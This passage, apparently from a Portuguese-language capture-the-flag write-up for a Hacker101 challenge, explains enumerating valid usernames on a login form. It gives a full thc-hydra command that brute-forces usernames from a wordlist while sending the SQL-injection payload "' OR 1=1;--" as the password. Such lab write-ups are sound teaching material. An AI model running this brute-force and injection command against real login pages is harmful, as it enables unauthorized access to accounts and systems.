 ![Mensagem que identifica que a senha está inválida](/images/invalid_password_error.png)
![Mensagem que identifica que o nome de usuário está inválido](/images/invalid_username_error.png)

Infelizmente não existe um usuário "admin", como geralmente existe. Por isso, inúmeras requisições serão feitas até encontrar um usuário válido, e vamos fazer isso com a ajuda de ferramentas utilitárias: o `thc-hydra`, passando a mesma senha -- que na consulta SQL será ignorada -- e filtrando pela mensagem que indica um nome de usuário válido ou não. Para isso, o seguinte comando fora utilizado, fazendo o uso de uma *wordlist* de nomes de usuários que pode ser encontrada [aqui](https://github.com/jeanphorn/wordlist/blob/master/usernames.txt).
```sh
# -L indica a wordlist de nomes de usuário, referente ao valor ^USER^.
# -p indica o valor absoluto a ser usado como senha, referente ao valor ^PASS^.
# A opção -t indica o número de threads usado.
# A flag -f é utilizada para parar a execução do bruteforce assim que algum valor válido é encontrado.
hydra -L usernames.txt -t 50 -p "' OR 1=1;--" e5813ef23c0b69101aae5fa4f5bbdaa2.ctf.hacker101.com https-post-form "/login:username=^USER^&password=^PASS^:F=Unknown user" -f
```
